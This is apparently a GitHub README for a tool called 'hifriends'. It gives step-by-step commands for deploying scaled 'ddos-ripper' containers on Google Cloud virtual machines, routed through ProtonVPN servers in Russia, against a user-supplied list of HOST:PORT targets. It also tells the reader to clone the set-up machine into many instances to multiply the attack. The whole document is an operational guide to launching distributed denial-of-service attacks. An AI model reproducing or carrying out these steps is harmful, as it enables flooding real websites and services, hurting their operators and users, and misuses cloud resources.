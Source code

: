 # hifriends

Instructions for Google cloud.

0. Register on Google cloud (you wil have free 300$ there) and protonvpn.
1. Get ProtonVpn credentials, see https://protonvpn.com/support/vpn-login/, section "OpenVPN / IKEv2 credentials"
2. Create publicly accessible file with your target (you can use same google account) with content "HOST:PORT"
3. Launch 1 virtual machine(for example ec2-standard-4 with 4 vCPU) and run following commands:
```
sudo apt-get install git

curl -fsSL https://get.docker.com -o get-docker.sh
sudo sh get-docker.sh
sudo curl -L "https://github.com/docker/compose/releases/download/1.29.2/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
sudo chmod +x /usr/local/bin/docker-compose

git clone https://github.com/crazysarancha/hifriends.git

cd hifriends

sudo TARGET_FILE="{public_file_with_targets}" \
PROTONVPN_USERNAME={your_openvpn_username} \
PROTONVPN_PASSWORD={your_openvpn_password} \
PROTONVPN_SERVER=RU \
PROTONVPN_TIER={you_plan_tier} \
docker compose up -d --build --scale ddos-ripper={N}
```
{public_file_with_targets} - from section2
{you_plan_tier} - Proton VPN Tier (0=Free, 1=Basic, 2=Pro, 3=Visionary)
{your_openvpn_username} - from section1
{your_openvpn_password} - from section1
{N} - number of dripper containers. For `ec2-standard-4` 5 works fine
See https://tprasadtp.github.io/protonvpn-docker/#/README?id=environment-variables

3. Create image from set up machine
4. Spin up as many instances from created image as it is allowed for your protonvpn connections and you are OK to pay for them.
For example, for Plus subscription it is 10 by default, but you can increase it in proton account)
Note: sometimes it might be the case that all protonvpn servers are busy.
```
[!] No Server in country RU found
[!] Please choose a valid country
```
But not all sites are closed by geolocation
